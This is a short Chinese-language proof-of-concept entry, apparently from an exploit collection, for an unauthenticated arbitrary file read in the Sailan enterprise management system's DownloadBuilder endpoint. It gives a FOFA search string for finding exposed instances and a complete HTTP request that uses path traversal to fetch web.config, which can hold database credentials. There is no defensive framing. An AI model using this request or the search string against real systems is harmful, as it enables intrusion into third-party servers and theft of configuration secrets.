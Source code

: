 # 赛蓝企业管理系统DownloadBuilder任意文件读取漏洞

赛蓝企业管理系统 DownloadBuilder 接口处存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```yaml
body="www.cailsoft.com" || body="赛蓝企业管理系统"
```

## poc

```yaml
GET /BaseModule/ReportManage/DownloadBuilder?filename=/../web.config HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407092300242.png)